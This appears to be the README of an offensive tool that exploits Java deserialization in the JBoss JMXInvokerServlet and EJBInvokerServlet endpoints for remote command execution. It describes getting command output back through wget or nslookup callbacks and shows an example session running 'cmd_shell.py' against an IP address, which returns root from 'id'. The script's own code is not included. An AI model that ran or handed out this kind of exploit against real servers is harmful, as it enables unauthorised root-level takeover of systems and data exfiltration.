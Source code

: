 # InvokerServlet-exec
JMXInvokerServlet-EJBInvokerServlet serialized objects command execution

full credit and details at the following link:

https://github.com/frohoff/ysoserial

http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/

this script lets you execute and retrieve commands output (through wget or nslookup requests) from a vulnerable target like in a shell.

## Example
```shell
root@kali:~/script/InvokerServlet-exec/wget# python cmd_shell.py 192.168.1.20 
$> id
uid=0(root) gid=0(root) groups=0(root)

$> exit
Bye!
```
